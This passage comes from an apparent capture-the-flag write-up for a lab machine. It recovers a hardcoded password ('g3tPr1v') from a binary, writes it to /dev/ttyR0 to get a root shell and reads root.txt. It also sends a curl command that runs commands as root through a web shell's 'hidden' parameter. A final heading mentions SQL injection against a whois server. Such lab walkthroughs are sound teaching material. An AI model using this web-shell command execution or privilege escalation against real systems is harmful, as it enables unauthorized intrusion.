 Looking at bit up, I can determine that that call looks like:

```

snprintf(magic, 8, "%s%s", a, b)

```

`a` and `b` are set earlier in the function:

![1566759883542](https://0xdfimages.gitlab.io/img/1566759883542.png)

So the check is input against `g3tPr1v`.

### root Priv

I’ll take this new password back and give it another try in my stateful shell, and it works:

```

$ 
echo "g3tPr1v" > /dev/ttyR0
$ 
id
uid=0(root) gid=0(root) groups=0(root),1004(customers)

```

Now I can get `root.txt`:

```

$ 
cat /root/root.txt
4a08d817************************

```

I could also do this without a stateful shell, just using the RCE. I’ll demonstrate with curl:

```

root@kali# curl -G http://sec03.rentahacker.htb/shell.php --data-urlencode 'hidden=echo "g3tPr1v" > /dev/ttyR0; id; cat /root/root.txt'
uid=0(root) gid=0(root) groups=0(root),1004(customers)
4a08d817************************

```

## Beyond Root

### Whois SQLi

#### More SQLi

In my initial enumeration I found and dumped a bunch of domains via SQL injection in the whois server. I did poke at that a bit more to see if I could find anything useful.
